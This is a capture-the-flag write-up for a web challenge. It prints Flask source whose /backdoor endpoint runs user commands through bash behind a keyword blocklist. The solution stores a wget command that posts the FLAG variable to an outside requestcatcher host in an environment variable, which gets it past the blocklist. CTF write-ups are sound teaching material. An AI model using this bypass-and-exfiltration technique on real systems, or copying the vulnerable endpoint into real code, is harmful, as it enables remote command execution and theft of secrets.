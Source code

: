 # Cig 2
### Web - Medium

- This one is a bit harder! they have blocked all built-in linux commands `/blocked`so we can't use these in `/backdoor` but!
- ![47f95716848315b0c7f91be5f1024e18.png](47f95716848315b0c7f91be5f1024e18.png)
<details>
    <summary>Reveal Code</summary>
```python
from flask import Flask, render_template, request, redirect
import subprocess
import os
from string import printable

app = Flask(\_\_name\_\_)

blocked = open("blocked.txt", "r").read().split("\\n")


@app.route("/blocked", methods=\["GET"\])
def getBlocked():
    return render\_template("hello.html", source\_code="\\n".join(blocked))


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def cmd():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    for b in blocked:
        if b in cmd:
            os.system(f'echo "{b}" > /tmp/found')
            return redirect("/")
    os.system(f'echo "{cmd}" > /tmp/log.txt')
    output = os.system(f'bash -c "{cmd}"')
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 5001))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>
- ![24b0ea9bbab2dbf0ade2386350ca0df8.png](24b0ea9bbab2dbf0ade2386350ca0df8.png)
- Here is the trick! using **env vars** we can assign env vars to texts/commands we like so we can bypass this 
- Now we will use `/setenv` but we can also assign 1 var to our full command!
- Step 1: `/setenv?var=v1&value=wget --post-data=$(echo $FLAG) ayham.requestcatcher.com`
- Step 2: `/backdoor?cmd=${v1}`
- EZ!
- ![7548e6c2026e5af4ddedd9dcbdf33867.png](7548e6c2026e5af4ddedd9dcbdf33867.png)
- However it took me a while bec I actually splitted my cmd into multiple env vars and failed at some and forgot some logic but here is the simplest solution!
- VOILA!!!